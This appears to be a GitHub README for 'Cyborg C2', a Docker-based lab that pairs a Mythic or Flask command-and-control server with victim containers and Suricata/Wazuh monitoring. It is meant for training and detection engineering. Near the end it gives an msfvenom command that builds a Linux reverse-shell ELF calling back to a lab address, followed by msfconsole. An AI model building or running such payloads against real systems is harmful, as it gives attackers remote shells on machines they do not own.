## Cyborg C2: A Realistic, Containerized Adversary Simulation Framework

### 🧠 Concepts
Build a containerized, modular Command & Control (C2) simulation framework that replicates real-world adversary behavior, inspired by tools like Cobalt Strike, Mythic, and Sliver, but built for training, detection engineering, and research, not real attacks.

### 🞋 Goal
A C2 server (attacker-controlled)
One or more victim containers (simulated endpoints)
A Suricata container (monitoring/sniffing traffic)
A Wazuh agent or manager (for SIEM + alerting)

### 🔁 Data Flow Summary:
- Kali VM (in VirtualBox) is the main attacker, issuing commands or payloads.
- The Docker C2 (e.g., Mythic or a custom Flask-based C2) manages communications with deployed payloads.
- Multiple Attack Containers simulate malware stages (e.g., phishing, privilege escalation).
- Defender Containers (IDS, loggers) inspect traffic, generate alerts, and provide telemetry.

### Workflow 
```
┌────────────┐
│  Kali VM   │  ← attacker
└────┬───────┘
     │
     ▼
┌────────────┐
│  C2 Docker │  ← attacker infra (Flask/Mythic listener)
└────┬───────┘
     │
     ▼
┌────────────┐
│ Victim Box │  ← vulnerable machine (e.g., DVWA container)
│ + Suricata │  ← monitors traffic
└────┬───────┘
     │
     ▼
┌────────────┐
│ Wazuh/ELK  │  ← parses + visualizes Suricata logs
└────────────┘

```

### How are IP's are assigned 
```
1. Create the netwrok :
docker network create \
  --subnet=192.168.100.0/24 \
  --gateway=192.168.100.1 \
  cyberlab_net

📌 When you run the contianers attach them like this:
docker run --rm -it \
  --network=cyberlab_net \
  --ip=192.168.100.10 \
  --name=c2_server my-c2-image

2. In Virtual Box Kali VM: Set up host-only adapter in adapter-2
   Go to Kali VM Settings > Network > Adapter 2
          * Enable Host-Only Adapter
          * Assign adapter to vboxnet0 or your custom host-only adapter
          * Inside the Kali-Linux machine:
               sudo ip addr add 192.168.100.50/24 dev eth1
               sudo ip link set dev eth1 up
```
---

## Recommended Docker Images

```
🕵️‍♂️ 1. C2 Server (Command & Control)
          Mythic C2
          Docker image : its-a-feature/mythic
          Notes : Best for full-featured real-world C2
🎯 2. Victim Machine(s):
          👉 You can also make your own Dockerfile with backdoors or open ports
          [Upload in the Github Folder]
🧅 3. Suricata IDS:
📊 4. Wazuh SIEM Stack:
          ✅ Recommended: Use their official docker-compose repo for
                          a full deployment (Wazuh + ELK).
```


payload creation :
 msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.10 LPORT=4444 -f elf > shell.elf
 chmod +x shell.elf 

msfconsole 

